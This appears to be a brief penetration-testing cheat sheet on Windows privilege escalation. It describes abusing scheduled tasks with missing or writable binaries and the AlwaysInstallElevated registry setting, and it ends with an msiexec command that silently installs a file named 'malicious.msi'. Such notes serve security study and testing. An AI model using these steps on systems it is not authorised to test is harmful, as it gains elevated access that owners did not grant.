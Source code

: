 # Scheduled tasks
Scheduled tasks may have lost its binary or have a binary you can modify, this may allow you to escalate you privilages
you can list scheduled tasks with
```shell-session
schtasks
```
and get a more detailed view
```shell-session
schtasks /query /tn <task> /fo list /v
```
to check if you can overwrite something that a task is using you can use icacls to find out who can edit it
# AlwaysInstallElevated
Windows installer files normally run with the privilege of the user that starts it, though this can be configured to run at higher privilege levels from any user account
this method requires two registry values to be set. you can query these from the command line using the commands below
```shell-session
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
you can then execute msi with the following
```shell-session
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
